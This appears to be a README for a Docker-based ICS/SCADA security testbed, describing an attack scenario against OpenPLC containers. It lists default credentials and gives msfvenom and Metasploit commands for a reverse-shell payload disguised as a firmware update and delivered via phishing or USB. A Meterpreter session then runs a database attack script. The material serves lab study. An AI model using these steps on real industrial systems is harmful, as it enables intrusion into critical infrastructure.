

# Setting Up Attack Scenarios


## *ICS Network  network environment*
At this level, we consider you've installed the original testbed network (i.e from Yi Zhu's work). No mitigation solution has been implemented yet so all the components in the swat network can communicate with each other, no isolation nor segmentation is implemented yet.

## *Services running after running testbed*

Docker Containers

**ScadaBR**
   - **Role:** Simulates a HMI and Historian in the Scada Network.
   - **Network:**
     - `Name` (Swat) 
     - `Ip address` (IP: 172.18.0.9)
   - **Ports:** 10010:8080

**PLC11**
   - **Role:** Simulates a PLC via OpenPLC in the Scada Network.
   - **Networks:**
     - `Name` (Swat)
     - `network2` (IP: 172.18.0.11)
   - **Ports:** 10011:8080

**PLC12**
   - **Role:** Simulates a PLC via OpenPLC in the Scada Network.
   - **Networks:**
     - `Name` (Swat)
     - `network2` (IP: 172.18.0.12)
   - **Ports:** 10012:8080

## *Accessing the Components on the browser*

1. **PLC11 Dashboard**:
   - URL: `http://172.18.0.11:10011`
   - **Username**: `openplc`
   - **Password**: `openplc`

1. **PLC12 Dashboard**:
   - URL: `http://172.18.0.12:10012`
   - **Username**: `openplc`
   - **Password**: `openplc`

## *Accessing the Components on via the docker cli*

bash:
```
# For plc11
docker exec -it plc11 bash 
# For plc12
docker exec -it plc12 bash 
```

**NB:** There are 06 PLC in total, from PLC11 ... PLC16, there are in the same network named (swat) with their port number corresponding to their names 
**Ex :** Name :  PLC11, Port : 10011

## *Setting up the attacker's machine*

Docker command:
```
sudo docker run -d -t --net swat --hostname attacker --name attacker --privileged --ip 172.18.0.18 -p 10018:8080 kalilinux/kali-rolling
```

Docker container

**Attacker**
   - **Role:** Simulates the attacker in the Scada network.
   - **Image:** `kalilinux/kali-rolling`
   - **Networks:**
     - `Name` (Swat)
     - `network2` (IP: 172.18.0.18)
   - **Ports:** 10018:8080
   - **Description:** The attacker will install the basic tools to counter attack.

## *Accessing the attacker's machine via the docker cli*

bash:
```
docker exec -it attacker bash
```

**NB:** We assume the attacker is already in the swat network so he can access other components of the Scada network

## *Scenario - 1 : Exploit vulnerable OpenPLC database*

The first scenario consist of exploiting the sqlite database of OpenPLC using a script **db-attack.py** found in the **2 - Attack_scripts folder** 

If Metasploit is not installed, follow these steps:

Attacker's terminal
```
apt-get update && apt-get install -y git curl wget python3-pip
apt install metasploit-framework
```

### *Phase 1 : Craft malicious payload*

- The attacker creates a malicious payload usually named reverse shell using **Metasploit**’s `msfvenom` tool. to access to the plc's container : 

#### *Command to craft the payload in the attacker's machine*

Attacker's terminal
```
msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=192.168.0.115 LPORT=4444 -f elf -o firmware_update.elf
``` 

- The attacker loads the malicious payload into the target's machine. In a real world case, he could use phishing or handle a USB key to an employee. He will eventually tell the employee that it could be firmware update for plcs. The idea is to have access to a target's machine in order to manipulate the PLC remotely. 
- In our attack scenario, we assume the phising attack went on successfullu, so we simply upload the crafted payload into the target container

bash 
```
docker cp attacker:/scripts/firmware_update.elf plc11:/workdir
```

Then in plc11, we run this 

Plc11 terminal
```
cd workdir
chmod +x firmware_update.elf
./firmware_update.elf
```

- The payload is running successfully in the target's machine, so the attacker can access the target machine using reverse shell of **Metasploit**’s `msfvenom` tool.

#### *Set up a Metasploit Listener:*

Attacker's terminal
```
msfconsole
use exploit/multi/handler
set payload linux/x86/meterpreter/reverse_tcp
set LHOST 172.18.0.18 #attacker's IP address
set LPORT 4444
exploit
```

- When the payload is executed, the attacker will gain a reverse shell into the system.
- The attacker can now manipulate the plc and executes any scripts he wishes, the attack uploads the `db-attack.py` to plc's machine

Illustration in meterpreter terminal:
```
upload /path/to/local/file /path/on/target/ (Upload from attacker to target machine)
```

Example

Meterpreter terminal
```
upload /scripts/db-attack.py /workdir
```
- After uplaoding the script in the target's machine, he can execute the script with ease from the meterpreter terminal

Meterpreter terminal
```
shell
python3 db-attack.py
```




